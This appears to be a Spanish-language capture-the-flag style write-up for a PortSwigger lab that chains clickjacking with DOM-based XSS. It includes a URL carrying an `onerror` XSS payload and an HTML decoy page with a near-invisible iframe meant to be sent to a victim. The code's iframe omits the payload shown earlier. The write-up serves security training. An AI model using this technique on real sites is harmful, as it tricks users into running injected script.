



## Combinación de clickjacking con un ataque DOM XSS

Hasta ahora, hemos considerado el clickjacking como un ataque autónomo. Históricamente, el clickjacking se ha utilizado para realizar acciones como aumentar los «me gusta» en una página de Facebook. Sin embargo, la verdadera potencia del clickjacking se revela cuando se utiliza como vehículo para otro ataque, como un ataque DOM XSS. La implementación de este ataque combinado es relativamente sencilla, suponiendo que el atacante haya identificado primero el exploit XSS. A continuación, el exploit XSS se combina con la URL de destino del iframe para que el usuario haga clic en el botón o enlace y, en consecuencia, ejecute el ataque DOM XSS.



## Lab: Exploiting clickjacking vulnerability to trigger DOM-based XSS

En este laboratorio se necesita enviar la información o data al usuario, ademas de enviar nuestro código para explotar un xss.



Para poder insertar el valor en los inputs pondremos loas valores en las urls

```c
https://0a6700c4049e866c8150d96c00dc0025.web-security-academy.net/feedback?name=%3Cimg%20src=1%20onerror=print()%3E&email=hacker@evil.com&subject=test&message=test
```

Luego de tener solucionado esto, ya podemos crear nuestro código html malicioso.

```c
<!DOCTYPE html>
<html lang="en">

<body>
    <style>
        iframe {
            position:relative;
            width:1000px;
            height: 600px;
            opacity: 50%;
            z-index: 2;
        }
        div {
            position:absolute;
            top:515px;
            left:60px;
            z-index: 1;
        }
    </style>
    <div>Click me</div>
    <iframe
    src="https://0a6700c4049e866c8150d96c00dc0025.web-security-academy.net/feedback?name=&email=hacker@evil.com&subject=test&message=test#feedbackResult"></iframe>
</body>
</html>
```

Una vez que tengamos nuestro tag `<div>` donde se tiene el boton, podemos cambiar la `opacity` a `0.00001`



Luego debemos guardar y enviar al usuario victima.

